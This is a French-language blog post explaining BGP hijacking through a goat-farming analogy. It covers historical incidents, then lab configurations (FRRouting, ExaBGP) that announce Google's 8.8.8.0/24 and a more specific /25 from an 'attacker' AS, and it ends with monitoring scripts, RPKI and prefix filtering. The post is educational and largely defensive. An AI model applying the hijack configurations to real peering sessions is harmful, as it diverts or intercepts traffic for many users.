# BGP hijacking : comment détourner Internet (et pourquoi mes chèvres comprennent mieux le routage que certains FAI)

## L'histoire de comment j'ai réalisé qu'Internet tenait avec du scotch et des promesses non vérifiées

Un matin de 2008, je me suis réveillée et YouTube ne marchait plus. Pas juste chez moi. Dans le monde entier. Pendant deux heures, YouTube était inaccessible pour des millions de personnes. La raison ? Le gouvernement pakistanais avait voulu bloquer YouTube localement, mais a accidentellement annoncé au monde entier : "Hé, tout le trafic pour YouTube, c'est chez nous maintenant !"

Et Internet les a crus. Sur parole.

C'était ma première introduction au BGP hijacking. Le jour où j'ai compris qu'Internet, ce réseau mondial qui fait tourner l'économie mondiale, repose sur un protocole qui fait confiance à tout le monde sans vérification. C'est comme si j'avais installé Ragnar (ma chèvre alpha) comme gestionnaire du trafic autoroutier. Elle dirait "par ici le chemin le plus court" et tout le monde la suivrait, même si elle les mène droit dans un fossé.

Bienvenue dans le monde terrifiant du BGP, où n'importe qui peut annoncer qu'il possède Facebook, Google, ou votre banque. Et où tout le monde le croira.

## BGP : le protocole qui fait tourner Internet

### Qu'est-ce que BGP ?

BGP (Border Gateway Protocol) est le protocole qui permet aux différents réseaux d'Internet (les Autonomous Systems - AS) de communiquer entre eux et d'échanger des informations de routage.



Chaque AS (réseau autonome) annonce les blocs d'adresses IP qu'il possède. Les autres AS écoutent ces annonces et mettent à jour leurs tables de routage.

### Comment ça marche normalement



C'est élégant. Décentralisé. Auto-organisé.

**Et complètement basé sur la confiance.**

### Le problème fondamental

BGP a été conçu dans les années 1980 quand Internet était petit et tout le monde se connaissait. Il n'y a **AUCUNE vérification** dans BGP.



C'est comme si n'importe qui pouvait mettre une pancarte "Paris par ici" sur l'autoroute, et que tous les GPS du monde la croiraient sans vérifier.

## BGP Hijacking : l'attaque qui fait trembler Internet

### Les types d'hijacking

**1. Prefix hijacking : voler un bloc d'IPs**



**2. Sub-prefix hijacking : plus spécifique = prioritaire**

BGP préfère les annonces plus spécifiques. Si Google annonce `8.8.8.0/24` et qu'un attaquant annonce `8.8.8.0/25` (plus précis), le trafic va vers l'attaquant.



**3. AS Path manipulation : créer un chemin fake**



### Cas réels terrifiants

#### Incident Pakistan-YouTube (2008)



**Ce qui s'est passé** : Pakistan Telecom voulait bloquer YouTube pour les Pakistanais. Ils ont annoncé un préfixe plus spécifique (`/24` au lieu du `/22` de YouTube). L'annonce a fuité vers Internet. Résultat : le monde entier pensait que YouTube était au Pakistan.

#### Incident Russie-Google-Apple-Facebook (2017)



Pendant une heure, un petit FAI russe a annoncé posséder les IPs de géants tech. Le trafic a été redirigé. Services dégradés mondialement.

**Question** : Erreur ou attaque délibérée ? On ne saura jamais.

#### China Telecom (2010, 2014, 2016, 2017...)

China Telecom a "accidentellement" détourné le trafic de :
- 15% d'Internet mondial (2010)
- Sites .gov américains
- Trafic de plusieurs pays entiers

Motif récurrent. "Accident" récurrent.



Le trafic passe par la Chine, peut être analysé, puis est relayé. Les utilisateurs ne remarquent qu'une légère latence.

## La pratique : comment faire du BGP hijacking (lab uniquement)

**⚠️ AVERTISSEMENT LÉGAL CRITIQUE ⚠️**

Le BGP hijacking est un **CRIME FÉDÉRAL** dans la plupart des pays. Détourner du trafic Internet peut :
- Causer des millions de dollars de dégâts
- Affecter des infrastructures critiques
- Être considéré comme du terrorisme dans certains cas

Ce qui suit est UNIQUEMENT pour comprendre le mécanisme dans un environnement de lab TOTALEMENT ISOLÉ.

### Prérequis théoriques

Pour faire du BGP hijacking "en vrai", vous auriez besoin de :

1. **Votre propre AS number** (obtenu via un RIR - Regional Internet Registry)
2. **Des accords BGP avec des peers** (autres AS qui vous font confiance)
3. **Un bloc d'IPs officiellement assigné**
4. **Des routeurs BGP** (Cisco, Juniper, ou solutions open-source)

Autrement dit : ce n'est pas accessible aux script kiddies. C'est un attack vector pour :
- États-nations
- FAIs malveillants/compromis  
- Erreurs de configuration catastrophiques

### Simuler BGP dans un lab avec GNS3

Vous pouvez simuler BGP dans un environnement contrôlé avec GNS3 :

```bash
# Installer GNS3
sudo apt-get install gns3-server gns3-gui

# Télécharger une image Cisco IOS ou utiliser FRRouting (open-source)
# Configuration d'un routeur BGP simple avec FRRouting
```

**Configuration FRRouting - Routeur légitime** :

```bash
# /etc/frr/bgpd.conf - AS 65001 (Google simulé)

router bgp 65001
 bgp router-id 1.1.1.1
 neighbor 10.0.0.2 remote-as 65000
 
 address-family ipv4 unicast
  network 8.8.8.0/24
 exit-address-family
!
```

**Configuration FRRouting - Routeur attaquant** :

```bash
# /etc/frr/bgpd.conf - AS 65002 (Attaquant)

router bgp 65002
 bgp router-id 2.2.2.2
 neighbor 10.0.0.2 remote-as 65000
 
 address-family ipv4 unicast
  # Annoncer le MÊME préfixe que Google
  network 8.8.8.0/24
  # OU annoncer un préfixe plus spécifique
  network 8.8.8.0/25
 exit-address-family
!
```

**Topologie du lab** :



**Vérification côté routeur transit** :

```bash
# Se connecter au routeur transit
vtysh

# Voir les routes BGP
show ip bgp

# Résultat :
   Network          Next Hop            Metric LocPrf Weight Path
*> 8.8.8.0/24       10.0.0.1                 0             0 65001 i
*  8.8.8.0/24       10.0.0.3                 0             0 65002 i

# Deux routes pour le même préfixe !
# Le routeur choisit selon ses critères (AS Path, poids, etc.)
```

### Sub-prefix hijacking en lab

**Configuration attaquant - Préfixe plus spécifique** :

```bash
router bgp 65002
 bgp router-id 2.2.2.2
 neighbor 10.0.0.2 remote-as 65000
 
 address-family ipv4 unicast
  # Annoncer un /25 au lieu du /24 légitime
  network 8.8.8.0/25
 exit-address-family
!
```

**Résultat sur le routeur transit** :

```bash
show ip bgp

   Network          Next Hop            Metric LocPrf Weight Path
*  8.8.8.0/24       10.0.0.1                 0             0 65001 i
*> 8.8.8.0/25       10.0.0.3                 0             0 65002 i
                    ^^^^^^^^^ PLUS SPÉCIFIQUE = PRÉFÉRÉ
```

Le trafic pour `8.8.8.0` à `8.8.8.127` va maintenant vers l'attaquant !

### Script Python : Annoncer des routes BGP (ExaBGP)

ExaBGP est un outil Python pour annoncer des routes BGP sans avoir un vrai routeur.

```bash
# Installer ExaBGP
pip3 install exabgp

# Configuration ExaBGP
cat > exabgp.conf << 'EOF'
neighbor 10.0.0.2 {
    router-id 2.2.2.2;
    local-address 10.0.0.3;
    local-as 65002;
    peer-as 65000;
    
    static {
        route 8.8.8.0/25 next-hop 10.0.0.3;
    }
}
EOF

# Lancer ExaBGP
exabgp exabgp.conf
```

**Sortie** :
```
12:34:56 | INFO | Sending BGP UPDATE:
           PREFIX: 8.8.8.0/25
           NEXT-HOP: 10.0.0.3
           AS-PATH: 65002
```

Boom. Vous venez d'annoncer une route BGP. Dans un lab. Isolé. **JAMAIS EN PRODUCTION.**

### Script pour monitorer les annonces BGP

```python
#!/usr/bin/env python3
"""
Monitorer les annonces BGP pour détecter des hijacks
Utilise les données de RouteViews / RIPE RIS
"""

import requests
import json
import time

def check_prefix_announcements(prefix):
    """
    Vérifier qui annonce un préfixe donné via BGPStream API
    """
    url = f"https://stat.ripe.net/data/announced-prefixes/data.json"
    params = {
        'resource': prefix
    }
    
    try:
        response = requests.get(url, params=params, timeout=10)
        data = response.json()
        
        if 'data' in data and 'prefixes' in data['data']:
            prefixes = data['data']['prefixes']
            
            print(f"\n[*] Préfixe recherché: {prefix}")
            print(f"[*] Trouvé {len(prefixes)} annonces\n")
            
            for p in prefixes:
                print(f"  Préfixe: {p['prefix']}")
                print(f"  AS: {p['origin']}")
                print(f"  Description: {p.get('holder', 'N/A')}")
                print("-" * 50)
            
            # Vérifier si plusieurs AS annoncent des préfixes qui se chevauchent
            if len(prefixes) > 1:
                print("\n[!] ATTENTION: Plusieurs AS annoncent ce préfixe ou des overlaps")
                print("[!] Possible BGP hijacking à investiguer")
        
    except Exception as e:
        print(f"[-] Erreur: {e}")

def monitor_as_announcements(as_number):
    """
    Surveiller toutes les annonces d'un AS donné
    """
    url = f"https://stat.ripe.net/data/announced-prefixes/data.json"
    params = {
        'resource': f'AS{as_number}'
    }
    
    try:
        response = requests.get(url, params=params, timeout=10)
        data = response.json()
        
        if 'data' in data and 'prefixes' in data['data']:
            prefixes = data['data']['prefixes']
            
            print(f"\n[*] AS{as_number} annonce {len(prefixes)} préfixes:")
            
            for p in prefixes:
                print(f"  - {p['prefix']}")
        
    except Exception as e:
        print(f"[-] Erreur: {e}")

def compare_historical_announcements(prefix):
    """
    Comparer les annonces actuelles avec l'historique
    """
    url = "https://stat.ripe.net/data/bgp-updates/data.json"
    params = {
        'resource': prefix,
        'starttime': '2024-01-01T00:00:00'
    }
    
    try:
        response = requests.get(url, params=params, timeout=10)
        data = response.json()
        
        # Analyser les changements d'annonces
        if 'data' in data and 'updates' in data['data']:
            updates = data['data']['updates']
            
            print(f"\n[*] Historique des updates BGP pour {prefix}:")
            print(f"[*] {len(updates)} changements détectés\n")
            
            # Détecter les anomalies
            origin_ases = set()
            for update in updates:
                if 'path' in update and update['path']:
                    origin_as = update['path'][-1]
                    origin_ases.add(origin_as)
            
            if len(origin_ases) > 1:
                print("[!] ALERTE: Plusieurs AS d'origine détectés:")
                for origin in origin_ases:
                    print(f"    - AS{origin}")
                print("[!] Possible hijacking ou multi-homing")
    
    except Exception as e:
        print(f"[-] Erreur: {e}")

if __name__ == "__main__":
    print("=" * 60)
    print("BGP Hijacking Detection Tool")
    print("=" * 60)
    
    # Exemples d'utilisation
    
    # Vérifier qui annonce le préfixe de Google
    check_prefix_announcements("8.8.8.0/24")
    
    # Surveiller les annonces d'un AS spécifique (Google)
    monitor_as_announcements(15169)
    
    # Comparer avec l'historique
    # compare_historical_announcements("8.8.8.0/24")
```

**Utilisation** :
```bash
python3 bgp_monitor.py
```

## Se protéger : RPKI et monitoring

### 1. RPKI : Resource Public Key Infrastructure

RPKI ajoute la cryptographie à BGP. Les propriétaires de préfixes signent leurs annonces.



**Configuration RPKI sur un routeur** :

```bash
# FRRouting avec RPKI
router bgp 65000
 rpki
  rpki cache 127.0.0.1 3323
  rpki polling_period 300
 !
 
 address-family ipv4 unicast
  # Rejeter les annonces invalides
  bgp bestpath prefix-validate disallow-invalid
 exit-address-family
!
```

**Créer un ROA (Route Origin Authorization)** :

1. Se connecter au portail de votre RIR (RIPE, ARIN, etc.)
2. Créer un ROA pour votre préfixe :
   - Préfixe : `203.0.113.0/24`
   - AS origine : `AS65001`
   - Max length : `/24` (ne pas autoriser plus spécifique)

**Vérifier le statut RPKI d'une route** :

```bash
# Utiliser rpki-client ou routinator
routinator vrps --format json | grep "8.8.8.0"

# Ou via API
curl "https://rpki-validator.ripe.net/api/v1/validity/AS15169/8.8.8.0/24"
```

### 2. BGP Monitoring et alertes

**BGPMon** : Surveiller vos préfixes en temps réel

```python
#!/usr/bin/env python3
"""
Simple BGP monitoring - alerte sur nouveaux AS annonçant vos préfixes
"""

import requests
import time
import json

class BGPMonitor:
    def __init__(self, monitored_prefixes, alert_email):
        self.prefixes = monitored_prefixes
        self.alert_email = alert_email
        self.known_origins = {}
    
    def check_announcements(self, prefix):
        """Vérifier les AS annonçant un préfixe"""
        url = "https://stat.ripe.net/data/announced-prefixes/data.json"
        params = {'resource': prefix}
        
        try:
            response = requests.get(url, params=params, timeout=10)
            data = response.json()
            
            current_origins = set()
            
            if 'data' in data and 'prefixes' in data['data']:
                for p in data['data']['prefixes']:
                    if 'origin' in p:
                        current_origins.add(p['origin'])
            
            return current_origins
        
        except Exception as e:
            print(f"Erreur lors de la vérification: {e}")
            return set()
    
    def detect_anomalies(self):
        """Détecter des annonces anormales"""
        for prefix in self.prefixes:
            current_origins = self.check_announcements(prefix)
            
            # Première exécution : enregistrer les AS normaux
            if prefix not in self.known_origins:
                self.known_origins[prefix] = current_origins
                print(f"[*] Baseline établie pour {prefix}: AS {current_origins}")
                continue
            
            # Comparer avec les AS connus
            new_origins = current_origins - self.known_origins[prefix]
            removed_origins = self.known_origins[prefix] - current_origins
            
            if new_origins:
                self.alert(prefix, "NOUVEAUX AS", new_origins)
            
            if removed_origins:
                self.alert(prefix, "AS DISPARUS", removed_origins)
            
            # Mettre à jour
            self.known_origins[prefix] = current_origins
    
    def alert(self, prefix, alert_type, origins):
        """Envoyer une alerte"""
        message = f"""
        [!] ALERTE BGP HIJACKING POTENTIEL
        
        Préfixe: {prefix}
        Type: {alert_type}
        AS concernés: {origins}
        
        Action recommandée: Investiguer immédiatement
        """
        
        print(message)
        
        # Envoyer email (nécessite configuration SMTP)
        # send_email(self.alert_email, "BGP Alert", message)
    
    def run(self, interval=300):
        """Boucle de monitoring"""
        print(f"[*] BGP Monitor démarré - vérification toutes les {interval}s")
        
        while True:
            self.detect_anomalies()
            time.sleep(interval)

if __name__ == "__main__":
    # Configurer vos préfixes à surveiller
    monitored = [
        "203.0.113.0/24",  # Votre préfixe
        "8.8.8.0/24"       # Exemple : Google
    ]
    
    monitor = BGPMonitor(monitored, "admin@example.com")
    monitor.run(interval=300)  # Vérifier toutes les 5 minutes
```

### 3. Services de monitoring externes

**BGPmon.net** : Monitoring gratuit
```bash
# S'inscrire sur BGPmon.net
# Ajouter vos préfixes
# Recevoir des alertes email/SMS en cas de changement
```

**RIPE RIS Alarms** : Pour les membres RIPE
```bash
# Configurer via le portail RIPE
# Alertes sur:
# - Nouveaux AS annonçant vos préfixes
# - Préfixes plus spécifiques
# - Changements de AS path
```

### 4. Filtrage BGP strict

**Configurer des filtres sur vos routeurs** :

```bash
# Accepter UNIQUEMENT les annonces de vos peers directs
router bgp 65000
 neighbor 10.0.0.1 remote-as 65001
 neighbor 10.0.0.1 prefix-list PEER-IN in
!
ip prefix-list PEER-IN seq 5 permit 192.0.2.0/24
ip prefix-list PEER-IN seq 10 deny 0.0.0.0/0 le 32
```

**Implémenter le filtrage Bogon** :

```bash
# Rejeter les préfixes privés, réservés, etc.
ip prefix-list BOGONS deny 0.0.0.0/8 le 32
ip prefix-list BOGONS deny 10.0.0.0/8 le 32
ip prefix-list BOGONS deny 172.16.0.0/12 le 32
ip prefix-list BOGONS deny 192.168.0.0/16 le 32
ip prefix-list BOGONS deny 224.0.0.0/4 le 32
ip prefix-list BOGONS permit 0.0.0.0/0 le 32
```

## L'analogie finale avec les chèvres

Mes chèvres m'ont donné une compréhension intuitive du BGP hijacking.

Un jour, j'ai installé plusieurs mangeoires dans différents coins de l'enclos. L'idée : distribuer les chèvres pour éviter les bagarres. J'ai mis des panneaux : "Foin frais par ici →"

Ragnar (toujours elle) a compris le système. Elle a déplacé les panneaux pour tous pointer vers SA mangeoire préférée. Résultat : toutes les chèvres se sont retrouvées au même endroit, suivant les faux panneaux.

C'est exactement le BGP hijacking :
- **Les mangeoires** = les destinations (Google, Facebook, etc.)
- **Les panneaux** = les annonces BGP
- **Ragnar** = l'attaquant qui modifie les annonces
- **Les chèvres qui suivent** = les routeurs qui font confiance

La solution ? J'ai dû :
1. **Vérifier régulièrement** que les panneaux étaient corrects (monitoring)
2. **Fixer les panneaux** pour qu'ils ne puissent pas être déplacés (RPKI)
3. **Former les chèvres** à reconnaître les vraies mangeoires (filtrage BGP)

Ragnar essaie toujours. Mais maintenant j'ai un système de vérification.

Et c'est exactement ce qu'Internet doit faire avec BGP.

## Ce qu'il faut retenir

Le BGP hijacking est une des attaques les plus puissantes et les plus sous-estimées d'Internet.

**Pourquoi c'est terrifiant** :
- Impact mondial possible
- Difficile à détecter rapidement
- Peut être "accidentel" (plausible deniability)
- Affecte tous les utilisateurs downstream

**Pourquoi c'est rare** :
- Nécessite des ressources (AS, routeurs BGP)
- Très visible (communauté surveille)
- Conséquences légales graves
- Révocation des accords de peering

**Pour se protéger** :
1. **Déployer RPKI** : Signer vos annonces
2. **Monitoring 24/7** : BGPmon, RIPE Alarms
3. **Filtrage strict** : Accepter seulement ce qui est légitime
4. **Accords de peering solides** : Vos peers doivent filtrer aussi

**Pour comprendre** (lab uniquement) :
1. GNS3 + FRRouting
2. ExaBGP pour annonces programmées
3. RIPE RIS pour données réelles
4. Scripts de monitoring personnalisés

## Conclusion

Le BGP hijacking me fascine et me terrifie en même temps.

Fascinant parce que c'est élégant dans sa simplicité : annoncer "je possède ce réseau" et être cru sur parole. L'équivalent d'une chèvre qui déplace un panneau et tout le monde la suit.

Terrifiant parce que ça marche. Régulièrement. En 2024. Avec des milliards d'euros qui transitent sur ces routes.

J'ai appris plusieurs choses importantes :

1. **La confiance sans vérification est dangereuse** - BGP fait confiance par défaut. Comme mes chèvres font confiance aux panneaux. C'était adapté en 1980. Plus maintenant.

2. **La visibilité sauve** - Si personne ne regarde, les attaques passent inaperçues. Le monitoring BGP est crucial.

3. **Les standards de sécurité avancent lentement** - RPKI existe depuis 2008. En 2024, moins de 50% des routes sont validées. C'est long. Trop long.

4. **Les "accidents" sont suspects** - Quand un même acteur a des "erreurs de configuration" répétées qui bénéficient toujours à ses intérêts géopolitiques... Ce ne sont plus des accidents.

Depuis que je comprends BGP, je vois Internet différemment. Ce n'est pas une infrastructure solide et immuable. C'est un réseau de confiance fragile, où n'importe quel acteur malveillant (ou incompétent) peut causer des dégâts massifs.

Et ça me rappelle mon enclos à chèvres. Apparemment solide. Jusqu'à ce que Ragnar trouve une faiblesse.

La différence ? Mes chèvres ne gèrent pas l'infrastructure financière mondiale.

Enfin, j'espère.

---

*PS : Oui, Ragnar a encore réussi à déplacer les panneaux la semaine dernière. Non, je n'ai toujours pas trouvé comment les fixer définitivement. Si vous avez des idées pour les panneaux OU pour BGP, je prends.*

*PPS : Si vous travaillez dans un FAI et que vous ne filtrez pas les annonces BGP de vos clients, vous êtes le problème. Pas Ragnar. Vous.*

*PPPS : Le jour où quelqu'un détournera vraiment tout le trafic bancaire mondial via BGP hijacking, je ne serai pas surprise. Juste déçue que personne n'ait écouté.*
